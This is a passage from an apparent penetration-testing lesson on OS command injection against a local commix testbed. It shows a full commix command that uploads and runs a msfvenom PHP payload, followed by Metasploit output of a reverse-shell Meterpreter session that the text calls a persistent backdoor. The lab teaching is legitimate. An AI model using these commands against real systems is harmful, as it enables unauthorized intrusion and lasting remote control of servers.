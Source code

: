 ```

### Delivering the payload with Commix
Now, it’s time to deliver our payload and watch the magic happen!

```python commix.py --url="http://127.0.0.1:3000/commix-testbed/scenarios/regular/GET/classic.php?addr=INJECT_HERE" --file-upload="/home/kali/Documents/msfvenom.php" --file-dest="/var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/" --os-cmd="php -f /var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/msfvenom.php"```

- ```php -f``` command tells PHP to parse and execute a file, in this case our payload

```Y``` for the HTTP server

```N``` if it asks you to continue where you left off

You should see this success info message:

```[info] The /var/www/example.com/public_html/commix-testbed/scenarios/regular/GET/msfvenom.php file was uploaded successfully!```

### Exploiting the Backdoor with Metasploit Meterpreter
You should also see a change in your metasploit window that indicates a successful connection, like this:

```[*] Started reverse TCP handler on 10.0.2.15:4444 [*] Sending stage (38288 bytes) to 172.17.0.2[*] Meterpreter session 1 opened (10.0.2.15:4444 -> 172.17.0.2:52140) at 2020-09-14 15:27:48 -0400meterpreter >```

If you type ```pwd```, it should show the endpoint’s directory:

```/var/www/example.com/public_html/commix-testbed/scenarios/regular/GET```

Just like with Weevely, we now have a backdoor that gives us shell access any time we want it!

## Conclusion
We’ve now used a number of different approaches and techniques in order to exploit this OS Command Injection, and I hope that you’re convinced that this is definitely a threat to take very seriously.

Go ahead and have fun with these exploits and see what you can do, and then complete this lesson to move on to the next!






